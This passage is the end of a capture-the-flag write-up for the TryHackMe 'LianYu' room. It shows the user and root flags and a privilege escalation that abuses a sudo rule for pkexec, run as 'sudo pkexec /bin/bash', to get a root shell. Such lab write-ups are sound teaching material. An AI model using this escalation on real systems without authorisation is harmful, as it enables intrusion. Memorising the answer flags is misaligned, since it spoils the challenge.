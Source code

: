 THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak
```

Time to privesc.
```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

GTFObins 'pkexec'
```
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo pkexec /bin/sh
```
```
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# whoami
root
```

Let's get root flag
```
cat /root/root.txt 

Mission accomplished


You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825


```

## Flag

1. User

```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

2. Privesc

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

## To Go Further

This room is pretty far fetched, and I often found myself stuck without knowing what to do, even when getting new infos.
